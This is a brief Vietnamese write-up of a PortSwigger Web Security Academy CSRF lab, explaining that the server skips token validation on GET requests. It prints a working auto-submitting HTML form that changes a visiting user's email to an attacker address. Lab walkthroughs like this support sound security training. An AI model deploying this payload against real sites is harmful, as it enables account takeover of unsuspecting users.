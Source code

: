 # [Lab: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)

Lỗ hổng: thay đổi http method (get), server không kiểm tra csrf token nữa.

Gửi payload sau lên exploit, khi user vào sẽ đổi email
```
<html>
    <body>
        <form action="https://0a9a008703ecd02ec0ad043f00a90047.web-security-academy.net/my-account/change-email" method="GET">
        <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```